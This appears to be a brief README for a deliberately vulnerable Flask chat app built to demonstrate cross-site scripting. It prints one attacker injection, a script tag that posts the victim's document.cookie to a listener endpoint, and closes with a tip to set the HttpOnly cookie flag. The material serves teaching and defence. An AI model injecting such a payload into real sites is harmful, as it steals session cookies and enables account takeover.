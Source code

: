 # **Chat WebApp with Flask**

Building an vulnerable chat web app with Flask, socket programming to demostrate XSS attacks.


Attacker's injection: `<script>$.ajax({ url : 'http://127.0.0.1:5001/listen', type : 'POST', data : { 'cookie' : document.cookie }, success : function(response) {}, error : function(error) {} })</script>`

A good way to prevent XSS attacks on cookies is to set the `HttpOnly` flag of the cookie. This makes the cookie unavailable to scripting languages like JavaScript.
